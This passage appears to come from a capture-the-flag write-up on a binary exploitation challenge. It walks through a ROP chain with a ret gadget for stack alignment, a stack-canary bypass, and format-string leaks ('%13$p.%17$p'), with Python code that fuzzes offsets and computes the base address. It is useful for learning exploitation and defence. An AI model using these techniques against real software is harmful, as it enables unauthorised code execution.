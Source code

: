### 3.4 Stage 3: ROP Chain Construction

**Goal:** Call `get_streak()` with proper stack alignment

**Issue:** x86-64 requires RSP to be 16-byte aligned before `call` instructions.

**Solution:** Add a `ret` gadget before the target function address.

**ROP Chain:**
```
[24 bytes padding]     # Fill buffer
[8 bytes canary]       # Bypass canary check
[8 bytes junk RBP]     # Overwrite saved RBP (any value)
[ret gadget address]   # Stack alignment
[get_streak address]   # Target function
```

### 3.5 Why `ret` Gadget Matters

The `ret` instruction:
1. Pops an address from stack into RIP
2. Increments RSP by 8
3. Jumps to that address

This extra stack pop ensures RSP is 16-byte aligned for the subsequent function call, preventing segfaults in function prologue.

---

## Phase 4: Exploitation in Detail

### 4.1 Finding Format String Offsets

**Fuzzer Function:**
```python
for i in range(50):
    payload = f"%{i}$p".encode()
    # Send and observe output
    # Position 13: Canary
    # Position 17: Code address
```

### 4.2 Leak Extraction

**Payload:** `%13$p.%17$p`

**Parsing Response:**
```python
response = "0x726c889ce8ccf300.0x55dba5e00992"
parts = response.split(".")
canary = int(parts[0], 16)          # 0x726c889ce8ccf300
main_addr = int(parts[1], 16)       # 0x55dba5e00992
base_addr = main_addr - 0x992       # 0x55dba5e00000
```
